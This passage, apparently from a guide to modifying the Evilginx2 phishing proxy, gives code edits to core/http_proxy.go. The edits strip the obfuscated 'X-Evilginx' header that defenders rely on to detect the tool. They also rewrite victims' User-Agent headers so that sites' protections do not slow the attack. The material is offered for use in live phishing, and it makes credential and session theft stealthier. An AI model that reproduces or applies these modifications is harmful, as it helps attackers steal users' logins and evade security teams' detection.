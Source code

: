 // Line 1495
func (p *HttpProxy) getHomeDir() string {
	return strings.Replace(HOME_DIR, ".e", "X-E", 1) 
}
```

### Evilginx2 Easter Egg Patch (X-Evilginx Header)
- Evilginx2 contains easter egg code which adds a `X-Evilginx` header with each request.
- This header contains the Attacker Domain name. So it can be used for detection.
- To remove the Easter egg from evilginx just remove/comment below mentioned lines from the `core/http_proxy.go` file.
```
// Line 183
egg2 := req.Host

// Line 350
hg := []byte{0x94, 0xE1, 0x89, 0xBA, 0xA5, 0xA0, 0xAB, 0xA5, 0xA2, 0xB4}  

// Line 407
req.Header.Set(string(hg), egg2)  

// Line 377 to 379
for n, b := range hg {
		hg[n] = b ^ 0xCC
	}
  
// Line 562 to 566
e := []byte{208, 165, 205, 254, 225, 228, 239, 225, 230, 240}
for n, b := range e {
		e[n] = b ^ 0x88
}
req.Header.Set(string(e), e_host)

// Line 1456 to 1462
func (p *HttpProxy) cantFindMe(req *http.Request, nothing_to_see_here string) {
	var b []byte = []byte("\x1dh\x003,)\",+=")
	for n, c := range b {
		b[n] = c ^ 0x45
	}
	req.Header.Set(string(b), nothing_to_see_here)
}

// Line 580
p.cantFindMe(req, e_host)


```

### Add Custom User Agent
- Few sites have protections based on user agent, and relaying on javascript injections to modify the user agent on victim side may break/slow the attack process.
- Custom User Agent Can be Added on the fly by replacing the `User-Agent` Header in each requests.
- Below is the work Around Code to achieve this. You can add code in evilginx2 `core/http_proxy.go` file below line 395.
```
				// Replace Any User Agent With Firefox UserAgent
				useragent := req.Header.Get("User-Agent")
				if useragent != "" {                                   
							req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0")
							log.Debug("[%d] Injected User Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/96.0 ", ps.Index)
				}
